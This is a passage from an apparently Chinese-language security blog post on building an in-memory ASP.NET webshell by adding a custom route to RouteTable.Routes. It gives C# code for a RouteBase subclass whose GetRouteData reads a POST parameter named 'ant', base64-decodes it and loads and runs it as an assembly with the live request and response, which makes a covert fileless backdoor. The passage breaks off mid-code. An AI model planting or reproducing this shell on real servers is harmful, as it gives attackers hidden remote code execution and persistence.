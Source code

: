 这里提一嘴为啥不能直接用mvc下面的RouteConfig.RegisterRoutes来注册route

点进函数可以看到调用了System.Web.Mvc.RouteCollectionExtensions.MapRoute方法，而这个方法也是要依赖System.Web.Mvc.dll的。所以不能直接拿来用。

```cpp
    public class RouteConfig
    {
        public static void RegisterRoutes(RouteCollection routes)
        {
            routes.IgnoreRoute("{resource}.axd/{*pathInfo}");
            routes.MapRoute(
                name: "Default",
                url: "{controller}/{action}/{id}",
                defaults: new { controller = "Home", action = "Index", id = UrlParameter.Optional }
            );
        }
    }
```

一路寻找重载，发现实际上就是给RouteTable.Routes里面增加了一个元素，我们直接调用route.Add即可。



![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1640438484998-059c87c9-169a-4ae5-82e5-3e57a11ea3b5.png)

System.Web.Routing.RouteCollection.Add第一个参数是名字，不过没有太大用处，只是为了判断map里面有没有重复的。第二个参数是重点，要打进去一个RouteBase类型的item。RouteBase是个抽象类，默认的实现为System.Web.Routing.Route。

这里就有不同的操作方式了，第一种是自己实现一个RouteBase，第二种是new一个System.Web.Routing.Route对象。

### 自己实现RouteBase

继承RouteBase需要实现两个方法：

| GetRouteData(HttpContextBase)                        | 在派生类中重写时，返回关于请求的路由信息。                   |
| ---------------------------------------------------- | ------------------------------------------------------------ |
| GetVirtualPath(RequestContext, RouteValueDictionary) | 在派生类中重写时，检查路由是否与指定的值匹配，如果匹配，则生成 URL，并检索有关该路由的信息。 |

#### GetRouteData

这个点是目前来看最佳的注入点，beichen师傅在kcon的演讲中也是用的这个函数。改写GetRouteData方法，里面加入我们的shell逻辑即可。这里HttpContextBase是个抽象类，具体的实现是HttpContextWrapper，需要用到反射来获取我们需要的request跟response。

这里注意一定要加HttpResponse.End()，具体原因大家可以思考一下。

```cpp
public class MyRoute : RouteBase
    {
        public override RouteData GetRouteData(HttpContextBase httpContext)
        {
            String Payload = httpContext.Request.Form["ant"];
            if (Payload != null)
            {
                FieldInfo requestField =
                    typeof(HttpRequestWrapper).GetField("_httpRequest", BindingFlags.Instance | BindingFlags.NonPublic);
                HttpRequest httpRequest =
                    (HttpRequest)requestField.GetValue(httpContext.Request);

                FieldInfo responseField =
                    typeof(HttpResponseWrapper).GetField("_httpResponse",
                        BindingFlags.Instance | BindingFlags.NonPublic);
                HttpResponse httpResponse =
                    (HttpResponse)responseField.GetValue(httpContext.Response);
                System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
                assembly.CreateInstance(assembly.GetName().Name + ".Run").Equals(new object[] { httpRequest, httpResponse });
```